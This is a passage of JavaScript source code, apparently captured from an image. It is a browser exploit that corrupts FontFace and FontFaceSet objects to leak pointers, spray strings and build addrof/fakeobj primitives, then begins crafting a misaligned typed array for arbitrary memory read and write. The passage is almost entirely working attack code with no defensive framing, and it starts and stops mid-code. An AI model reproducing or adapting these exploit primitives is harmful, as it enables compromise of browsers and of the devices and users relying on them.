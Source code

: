             var ui32a = stringToPtr(rd_leak, 24); //Uint32Array    
            var rd_arr = makeReader(array256, 'ffs5');
            var butterfly = stringToPtr(rd_arr, 8);    
            var rd_ui32 = makeReader(ui32a, 'ffs6');
            for (var i = 0; i < 8; i++)
                union_b[i] = rd_ui32.charCodeAt(i);    
            var structureid_low = union_i[0];
            var structureid_high = union_i[1];    
            //setup for addrof/fakeobj
            //in array[256] butterfly: 0 = &bad_fonts[guessed_font+12] as double
            //in array[257] butterfly: 0 = {0x10000, 0x10000} as jsvalue
            union_i[0] = 0x10000;
            union_i[1] = 0; //account for nan-boxing
            arrays[257][1] = {}; //force it to still be jsvalue-array not double-array
            arrays[257][0] = union_f[0];
            union_i[0] = (guessed_addr + 12 * SIZEOF_CSS_FONT_FACE) | 0;
            union_i[1] = (guessed_addr - guessed_addr % 0x100000000) / 0x100000000;
            arrays[256][i] = union_f[0];    
            //hammer time!    
            pp_s = '';
            pp_s += ptrToString(56);
            for (var i = 0; i < 12; i++)
                pp_s += ptrToString(guessed_addr + i * SIZEOF_CSS_FONT_FACE);    
            var fake_s = '';
            fake_s += '0000'; //padding for 8-byte alignment
            fake_s += ptrToString(INVALID_POINTER); //never dereferenced
            fake_s += ptrToString(butterfly); //hammer target
            fake_s += '\u0000\u0000\u0000\u0000\u0022\u0000\u0000\u0000'; //length=34    
            var ffs7_args = [];
            for (var i = 0; i < 12; i++)
                ffs7_args.push(bad_fonts[guessed_font + i]);
            ffs7_args.push(good_font);    
            var ffs8_args = [bad_fonts[guessed_font + 12]];
            for (var i = 0; i < 5; i++)
                ffs8_args.push(new FontFace(HAMMER_FONT_NAME, "url(data:text/html,)", {}));    
            for (var i = 0; i < HAMMER_NSTRINGS; i++)
                mkString(HASHMAP_BUCKET, pp_s);    
            ffses.ffs7 = new FontFaceSet(ffs7_args);
            mkString(HASHMAP_BUCKET, pp_s);
            ffses.ffs8 = new FontFaceSet(ffs8_args);
            var post_ffs = mkString(HASHMAP_BUCKET, fake_s);
            needfix.push(post_ffs);    
            for (var i = 0; i < 13; i++)
                bad_fonts[guessed_font + i].family = "hammer" + i;    
            function boot_addrof(obj) {
                arrays[257][32] = obj;
                union_f[0] = arrays[258][0];
                return union_i[1] * 0x100000000 + union_i[0];
            }    
            function boot_fakeobj(addr) {
                union_i[0] = addr;
                union_i[1] = (addr - addr % 0x100000000) / 0x100000000;
                arrays[258][0] = union_f[0];
                return arrays[257][32];
            }    
            //craft misaligned typedarray    
            var arw_master = new Uint32Array(8);
            var arw_slave = new Uint8Array(1);
            var obj_master = new Uint32Array(8);
            var obj_slave = {
                obj: null
            };    
            var addrof_slave = boot_addrof(arw_slave);
            var addrof_obj_slave = boot_addrof(obj_slave);